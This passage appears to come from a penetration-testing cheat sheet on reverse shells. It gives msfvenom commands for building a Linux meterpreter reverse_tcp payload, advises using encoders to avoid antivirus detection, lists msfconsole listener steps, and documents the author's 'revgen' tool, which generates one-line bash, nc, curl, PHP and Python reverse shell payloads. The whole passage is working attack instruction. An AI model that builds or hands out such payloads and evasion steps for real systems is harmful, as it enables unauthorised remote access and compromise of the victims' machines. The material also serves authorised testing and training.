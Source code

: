 ```
msfvenom --list all
[Used to list the available modules (payload, encoders, etc.)]

msfvenom -p <payload_type> LHOST=<Listener_IP|Hostname|Domain> LPORT=<Listener_Port> -f <output_format> -o <output_name>
[General msfvenom command template]

msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<Listener_IP> LPORT=<Listener_Port> -f elf -o payload.elf
[Generates a meterpreter shell for Linux (64-bit) in an ELF format]

You can use the '-e' argument and supply an encoder type to encode the payload, this can help prevent detection by AV (anti-virus) software.
```

- Setting up a listener

If you are using a meterpreter payload, you should setup a listener, before deploying the payload, using `msfconsole`.

```
Commands to run:

- msfconsole
- use exploit/multi/handler
- set PAYLOAD <payload_type_used>
- set LHOST <Listener_IP_used>
- set LPORT <Listener_Port_used>
- run
```
If the listener fails to start correctly, you should check that you are attempting to listen on the correct IP (LHOST).\
Another issue could be that if you are attempting to listen on a port below 1024, these are considered "privileged ports". You should run `msfconsole` with administrative permissions (using `sudo`).

### [revgen](https://github.com/acfirthh/revgen)

Another tool you can use to generate quick one-line reverse shell payloads is `revgen`.\
This is a tool written by myself in Python3. It is a command line tool that takes only three parameters, and one optional parameter.

```
Usage:

revgen -l/--lhost <Listener_IP> -p/--lport <Listener_Port> -f <payload_format>
[General revgen command template]

revgen -l <Listener_IP> -p <Listener_Port> -f bash
[Used to generate one-line bash reverse shell payloads for a given Listener IP and Port]

Optional Argument:
    -e <Encoding Type>

        Encoding Types:
            B   Base64
            U   URI Encoding

Supported Formats:
    - bash
    - nc
    - ncat
    - curl
    - rustcat
    - perl
    - php
    - python
```